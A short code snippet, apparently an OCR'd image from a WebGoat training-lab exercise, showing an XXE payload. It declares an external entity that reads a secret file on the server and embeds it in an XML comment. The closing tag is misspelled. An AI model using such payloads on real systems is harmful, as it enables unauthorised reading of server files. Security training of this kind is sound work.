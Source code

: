 
<!ENTITY web SYSTEM '/home/webgoat/.webgoat-8.2.2//XXE/secret.txt'>



<?xml version="1.0"?>
  <!DOCTYPE root [
    <!ENTITY web SYSTEM '/home/webgoat/.webgoat-8.2.2//XXE/secret.txt'>
]>
<comment><text>&web;</text></coment>



